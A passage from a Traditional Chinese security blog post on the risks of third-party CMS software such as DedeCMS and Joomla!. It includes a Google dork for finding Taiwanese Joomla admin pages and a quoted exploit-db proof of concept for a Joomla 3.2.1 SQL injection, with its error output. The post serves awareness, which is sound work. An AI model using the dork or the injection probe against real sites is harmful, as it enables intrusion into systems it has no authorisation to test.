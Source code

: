 而於另一個「[Sebug 安全漏洞信息庫](http://sebug.net)」也可以看到不少 DedeCMS 的蹤影。

[![sebug安全漏洞信息庫](https://lh6.googleusercontent.com/-5YS9t-YHgKk/Ux3lMMmjbqI/AAAAAAAAAKU/FWFu1liQdks/w600/blog_3rd_party_security_01.png "sebug安全漏洞信息庫")](https://lh6.googleusercontent.com/-5YS9t-YHgKk/Ux3lMMmjbqI/AAAAAAAAAKU/FWFu1liQdks/w1218-h860-no/blog_3rd_party_security_01.png)

如果官方在第一時間就能接獲通報、了解問題並修正解決，提供更新程式給客戶更新，那安全的風險會小些。但在官方尚未釋出更新的這段時間，網站將完全的暴露在風險當中。有心人士看到套件的漏洞陸續被揭露，也會更有興趣尋找使用該套件的網站攻擊。

### 案例說明：Joomla!

[Joomla!](http://www.joomla.org) 是另一套國際非常知名的 CMS 系統，因為其便利性，很多企業、學校、政府單位，都採用此套件建立網站。透過 Google Hacking 方式可以找到台灣非常多網站都使用 Joomla! 架站。

<pre>
site:tw intitle:管理區 inurl:administrator
</pre>

[![Google Hacking 尋找 Joomla!](https://lh3.googleusercontent.com/-_PP2U3n_zW8/Ux77uXKLAnI/AAAAAAAAAME/_e8VIuM_ATQ/w600/blog_3rd_party_security_04.png "Google Hacking 尋找 Joomla!")](https://lh3.googleusercontent.com/-_PP2U3n_zW8/Ux77uXKLAnI/AAAAAAAAAME/_e8VIuM_ATQ/w1218-h860-no/blog_3rd_party_security_04.png)

但是如果今天這個系統出了問題呢？「Joomla!」因為外掛、套件眾多，也經常成為漏洞發掘的對象。在 2014/02/05，國外釋出了一個 SQL Injection Exploit，可以導致網站帳號密碼直接被導出。

官方安全公告：[http://developer.joomla.org/security/578-20140301-core-sql-injection.html](http://developer.joomla.org/security/578-20140301-core-sql-injection.html)

Secunia: Joomla! Multiple Vulnerabilities [http://secunia.com/advisories/56772/](http://secunia.com/advisories/56772/)

Exploit 位址：[http://www.exploit-db.com/exploits/31459/](http://www.exploit-db.com/exploits/31459/)

{% highlight html %}
# Exploit Title: Joomla 3.2.1 sql injection
# Date: 05/02/2014
# Exploit Author: kiall-9@mail.com
# Vendor Homepage: http://www.joomla.org/
# Software Link: http://joomlacode.org/gf/download/frsrelease/19007/134333/Joomla_3.2.1-Stable-Full_Package.zip
# Version: 3.2.1 (default installation with Test sample data)
# Tested on: Virtualbox (debian) + apache
POC=>
http://localhost/Joomla_3.2.1/index.php/weblinks-categories?id=\
 
will cause an error:
 
1064 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\)' at line 3 SQL=SELECT `t`.`id` FROM `k59cv_tags` AS t INNER JOIN `k59cv_contentitem_tag_map` AS m ON `m`.`tag_id` = `t`.`id` AND `m`.`type_alias` = 'com_weblinks.categories' AND `m`.`content_item_id` IN ( \) Array ( [type] => 8 [message] => Undefined offset: 0 [file] => /var/www/Joomla_3.2.1/libraries/joomla/filter/input.php [line] => 203 )
 
I modified the original error.php file with this code --- <?php print_r(error_get_last()); ?> --- in order to obtain something useful. ;-)
 